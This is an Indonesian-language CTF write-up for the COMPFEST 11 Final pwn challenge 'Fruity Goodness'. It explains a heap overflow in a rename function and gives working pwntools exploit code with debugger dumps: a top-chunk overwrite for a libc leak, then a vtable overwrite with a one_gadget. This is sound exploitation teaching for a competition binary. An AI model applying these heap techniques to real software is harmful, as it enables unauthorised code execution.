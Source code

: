 ```yaml
---
title: "COMPFEST 11 Final - Fruity Goodness"
description: "COMPFEST 11 Final CTF Fruity Goodness challenge writeup"
pubDate: "September 9 2019"
tags: ["ctf-writeup", "pwn"]
---
```


> hanya soal ini yang saya selesaikan selama ctf berlangsung, sad af.

# analisa

    ==================================================
    WELCOME TO FRUIT WAR v6.9
    I'm still a noob C coder :(, please report any bugs you find
    I'm also poor so i cant pay you :(
    Hopefully you have fun!
    ==================================================
    1. I want a new fruit
    2. I want to train my fruit
    3. I want to list all my fruits
    4. I want out :(
    Your choice:

Soal heap dengan fungsi `view()`, `add()`, dan `edit()`, tanpa free/`delete()`. Struktur dari `fruit`,

```c
struct fruit {
    int coolness;
    int tastiness;
    int number;
    char* name;
    struct fruit *next_fruit;
    int level;
}
```

Ada sedikit twist pada bagian `edit()` (menu train pada soal), dimana hanya bisa mengubah nama `fruit` ketika `fruit` coolneess dan tastiness lebih dari 50. Untuk menaikkan nilai coolneess dan tastiness ini, `fruit` perlu ditrain terlebih dahulu dengan pertambahan nilai yang random.

```c
fruit_to_train->coolness += rand() % 10 + 1;
fruit_to_train->tastiness += rand() % 10 + 1;
...
if ( fruit_to_train->coolness <= 49 || fruit_to_train->tastiness <= 49 ) {
    puts("Fruit Trained!");
}
```

Bug terletak pada bagian `edit()`, karena dapat mengubah nama `fruit` tanpa ada batasan panjang yang sesuai pada pembuatan pertamanya.

```c
puts("Would you like to rename this fruit? (y/n)");
fgets(choice, 5, stdin);
if ( strchr(choice, 'y') ) {
    puts("How long do you want this fruit's name to be? (Max 4096 characters)");
    scanf("%d", &length);
    getchar();
    if ( length > 4096 ) {
puts("NO! BAD!");
exit(-1);
    }
    fruit_number = alloca(16 * ((length + 15LL) / 0x10uLL));
    p_new_name = (char (*)[])&fruit_number;
    puts("What do you want this fruit's name to be?");
    read(0, p_new_name, length);
    strncpy(fruit_to_train->name, p_new_name, length);
}
```

# exploit

Berikut beberapa fungsi untuk memudahkan interaksi dengan soal,

```py
def add(length, name):
    r.sendlineafter('choice:\n', '1')
    r.sendlineafter(')\n', str(length))
    r.sendlineafter('?\n', name)

def train(idx, length, name):
    r.sendlineafter('choice:\n', '2')
    r.sendlineafter('train?\n', str(idx))
    cond = 'Trained!' in r.recvline(0)
    while cond:
r.sendlineafter('choice:\n', '2')
r.sendlineafter('train?\n', str(idx))
tmp = r.recvline(0)
cond = 'Trained!' in tmp
    r.sendlineafter(')\n', 'y')
    r.sendlineafter(')\n', str(length))
    r.sendlineafter('?\n', name)

def view():
    r.sendlineafter('choice:\n', '3')
    dump = []
    while '1. I want a new fruit' not in r.recvline(0):
c = []
tmp = r.recvline(0)
while '========================================' not in tmp:
    c.append(tmp.split(': '))
    tmp = r.recvline(0)
dump.append(c)
    return dump
```

Ide pertamanya adalah mendapatkan leak libc dengan unsorted bin free list. Iya, walaupun gak ada `free()` di soal, free ini bisa didapat dengan mengalokasi chunk yang lebih besar daripada top chunk, cek lebih lanjut di stage 1 [house of orange](https://github.com/shellphish/how2heap/blob/master/glibc_2.25/house_of_orange.c). btw, karena ada batasan malloc sebesar 0x1000, ubah dulu top chunk size jadi dibawah 0x1000.

```py
add(0x48, 'A' * 0x47)
add(0x18, 'B' * 0x17)

#  pwndbg> dq *(long*)$rebase(&first_fruit) 40
# 0000555555559260     0000000000000000 0000000000000000
# 0000555555559270     0000555555559290 00005555555592e0
# 0000555555559280     0000000000000000 0000000000000051
# 0000555555559290     4141414141414141 4141414141414141
# 00005555555592a0     4141414141414141 4141414141414141
# 00005555555592b0     4141414141414141 4141414141414141
# 00005555555592c0     4141414141414141 4141414141414141
# 00005555555592d0     0041414141414141 0000000000000031
# 00005555555592e0     0000000000000000 0000000000000001
# 00005555555592f0     0000555555559310 0000000000000000
# 0000555555559300     0000000000000000 0000000000000021
# 0000555555559310     4242424242424242 4242424242424242
# 0000555555559320     0042424242424242 0000000000020ce1 <--- top chunk 0x20ce1

payload  = 'B' * 0x18
payload += '\xe1\x0c\x00' # 0xce1
train(1, len(payload), payload)

# pwndbg> dq *(long*)$rebase(&first_fruit) 40
# ...
# 00005555555592f0     0000555555559310 0000000000000000
# 0000555555559300     0000000000000001 0000000000000021
# 0000555555559310     4242424242424242 4242424242424242
# 0000555555559320     4242424242424242 0000000000000ce1 <--- top chunk 0x20ce1
```

Seharusnya alokasi malloc dengan ukuran lebih dari 0xce0, akan membuat heap pada page baru dan top chunk sebelumnya akan di free dan masuk ke unsorted bin.

```py
add(0xcf8, 'C')
# pwndbg> dq *(long*)$rebase(&first_fruit) 40
# ...
# 00005555555592f0     0000555555559310 0000555555559330
# 0000555555559300     0000000000000001 0000000000000021
# 0000555555559310     4242424242424242 4242424242424242
# 0000555555559320     4242424242424242 0000000000000031
# 0000555555559330     0000000000000000 0000000000000002
# 0000555555559340     000055555557a010 0000000000000000
# 0000555555559350     0000000000000000 0000000000000c91
# 0000555555559360     000015555551cca0 000015555551cca0 <--- libc leak
```

untuk dapetin leak-nya ubah `fruit->name` ke `...360`. `fruit->name` di entri ke 1 sudah menunjuk ke `...310` jadi yang perlu diubah hanya LSB-nya saja dari `0x10` jadi `0x60`.

```py
payload  = 'A' * 0x60
payload += '\x60'
train(0, len(payload), payload)

# pwndbg> dq *(long*)$rebase(&first_fruit) 40
# ...
# 00005555555592d0     4141414141414141 4141414141414141
# 00005555555592e0     4141414141414141 4141414141414141
# 00005555555592f0     0000555555559360 0000555555559330
# 0000555555559300     0000000000000001 0000000000000021
# 0000555555559310     4242424242424242 4242424242424242
# 0000555555559320     4242424242424242 0000000000000031
# 0000555555559330     0000000000000000 0000000000000002
# 0000555555559340     000055555557a010 0000000000000000
# 0000555555559350     0000000000000000 0000000000000c91
# 0000555555559360     000015555551cca0 000015555551cca0
# 0000555555559370     0000000000000000 0000000000000000

leak = view()
leak = leak[1][1][1][:6]
leak = u64(leak.ljust(8, '\x00'))

libc.address = leak - 0x1e4ca0
print 'libc', hex(libc.address)
```

Karena sudah mendapatkan leak libc, seharusnya sudah lebih mudah karena yang perlu dilakukan hanya mengubah `fruit->next_fruit->name` ke salah satu hook atau vtable di libc. Setelah itu tinggal ubah(`edit()`) nama di `fruit->next_fruit` jadi `one_gadget`. Pada exploit ini, saya menggunakan vtable dari std I/O, `_IO_file_jump`.

```py
payload  = 'A' * 0x60
payload += p64(libc.address + 0x1e65d8) # _IO_file_jump
train(0, len(payload), payload)

payload  = 'A' * 0x58
payload += p64(1)
train(0, len(payload), payload) # fix fruit->next_fruit->number

payload  = p64(libc.address + 0x106ef8) # one_gadget
```

profit.

# the real challenge dan sedikit rant

Soal ini terlihat mudah pada awalnya, tapi saya terjebak pada tahap akhir untuk mencari function pointer yang dapat dioverwrite pada libc. Teknik _spray n pray_ disini juga ga bisa digunakan karena saat `edit()`, `read()` tidak langsung ke `fruit->name`, tapi lewat value di stack terlebih dahulu lalu `strncpy()` setelahnya ke heap. `strncpy` ini akan men-copy null terminated string dari src ke dst. plus, Pointer x86_64 selalu memiliki null dan itulah sebabnya kenapa tidak bisa spray one_gadget di libc.

read(0, p_new_name, length);
strncpy(fruit_to_train->name, p_new_name, length);

btw, saya baru ingat kalau vtable std I/O, `_IO_file_jump` ini writeable setelah membaca salah satu writeup dari bushwhackers - [TokyoWesterns CTF 2019 - printf](https://blog.bushwhackers.ru/tokyo2019-printf/), tapi sayangnya ini baru teringat pas 10 menit menjelang selesai.

Lepas dari masalah mencari pointer yang bisa dioverwrite, _the real challenge_ sebenarnya adalah membuat exploit ini lebih cepat karena `usleep` yang lumayan lama saat setiap kali `edit()`. Ini sebenarnya lebih mengganggu menurut saya karena terbukti selama 5 menit terakhir saya hanya mendapatkan 2 flag dari lawan, plus, instance pada soal ini yang hidup hanya beberapa dari semua tim (tidak ada waktu untuk lapor ke panitia >.<). btw, mungkin ini lebih kepada saran kepada para challenge designer kedepannya, kalau memang tidak menyangkut bagaimana soal ini dapat diselesaikan, lebih baik tidak ditambahkan kalau bisa :). Bukan menyalahkan penggunaan `usleep` disini karena untuk soal jeopardy yang bisa fire and forget, time limit bisa tidak perlu dipedulikan, tapi untuk attack defense yang menyangkut dengan tick dsb… ¯\\\_(ツ)\_/¯
